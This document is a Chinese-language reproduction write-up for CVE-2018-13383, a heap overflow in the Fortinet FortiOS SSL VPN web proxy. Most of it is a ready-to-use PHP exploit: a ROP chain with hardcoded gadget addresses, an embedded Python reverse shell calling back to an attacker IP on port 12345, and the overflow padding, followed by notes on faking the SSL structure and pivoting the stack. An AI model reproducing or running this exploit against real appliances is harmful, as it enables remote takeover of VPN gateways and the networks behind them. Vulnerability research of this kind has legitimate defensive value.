 ```yaml
---
title: （CVE-2018-13383）Fortinet FortiOS 缓冲区错误漏洞
id: zhfly2949
---
```


# （CVE-2018-13383）Fortinet FortiOS 缓冲区错误漏洞

## 一、漏洞简介

Fortinet FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。 Fortinet FortiOS 6.2.0之前版本中存在堆缓冲区溢出漏洞。该漏洞源于网络系统或产品在内存上执行操作时，未正确验证数据边界，导致向关联的其他内存位置上执行了错误的读写操作。攻击者可利用该漏洞导致缓冲区溢出或堆溢出等。

## 二、漏洞影响

Fortinet Fortios 6.2 Fortinet Fortios 6.0.5

## 三、复现过程

这是WebVPN功能的漏洞。在解析HTML中的JavaScript时，它会尝试使用以下代码将内容复制到缓冲区中：

```
memcpy(buffer, js_buf, js_buf_len); 
```

缓冲区大小固定为`0x2000`，但输入字符串是无限制的。因此，这里存在堆溢出。值得注意的是，此漏洞可以溢出Null字节，这在我们的利用中很有用。
为触发此溢出，我们需要将exploit放到HTTP服务器上，然后以普通用户权限登录SSL VPN代理访问我们的exploit为普通用户。

> 这里我们用PHP编写的PoC放在HTTP服务器上:
> 
> //请自行修改里面的ip以及所需要的执行的命令

```
<?php
function p64($address) {
    $low = $address & 0xffffffff;
    $high = $address >> 32 & 0xffffffff;
    return pack("II", $low, $high);
}
$junk = 0x4141414141414141;
$nop_func = 0x32FC078;

$gadget  = p64($junk);

$gadget .= p64($nop_func - 0x60);

$gadget .= p64($junk);

$gadget .= p64(0x110FA1A); // # start here # pop r13 ; pop r14 ; pop rbp ; ret ;

$gadget .= p64($junk);

$gadget .= p64($junk);

$gadget .= p64(0x110fa15); // push rbx ; or byte [rbx+0x41], bl ; pop rsp ; pop r13 ; pop r14 ; pop rbp ; ret ;

$gadget .= p64(0x1bed1f6); // pop rax ; ret ;

$gadget .= p64(0x58);

$gadget .= p64(0x04410f6); // add rdi, rax ; mov eax, dword [rdi] ; ret  ;

$gadget .= p64(0x1366639); // call system ;

$gadget .= “python -c ‘import socket,sys,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((sys.argv[1],12345));[os.dup2(s.fileno(),x) for x in range(3)];os.system(sys.argv[2]);’ xx.xxx.xx.xx /bin/sh;”; `$p  = str_repeat(‘AAAAAAAA’, 1024+512-4); // offset

$p .= $gadget;

$p .= str_repeat(‘A’, 0x1000 - strlen($gadget));

$p .= $gadget;

?>

<a href=“javascript:void(0);<?=$p;?>”>xxx</a>` 
```

这个PoC可以分为三个部分。

*   1.虚假的SSL structure

`SSL structure`和我们的缓冲区相靠，因此我们可以精确伪造。为了避免崩溃，我们将`method`设置为一个包含空函数指针的位置。此时的参数是 `SSL structure`本身`s`。但是，`method`前面只有8个字节，我们不能简单地调用`system("/bin/sh");`，这对于我们的反向shell来说是不够的。不过由于那个巨大的二进制文件，我们很容易找到ROP小片段。我们发现一个有用的堆栈枢轴:

```
push rbx ; or byte [rbx+0x41], bl ; pop rsp ; pop r13 ; pop r14 ; pop rbp ; ret ; 
```

因此，我们将`handshake_func`设置为这个小片段，将`rsp`移动到`SSL structure`中，进行下一步的ROP攻击。

*   2.ROP链

这里的ROP链很简单。我们稍微向前移动`rdi`，以便有足够的空间执行反向shell命令。

*   3.溢出的字符串

最后，我们连接溢出填充并加以利用。一旦我们溢出了SSL structure，就会得到一个shell。

最终稳定利用还需要多次尝试，因为有时程序会提前崩溃。但无论如何，攻击还是奏效了，只需要1~2分钟，就可以获得一个反向shell。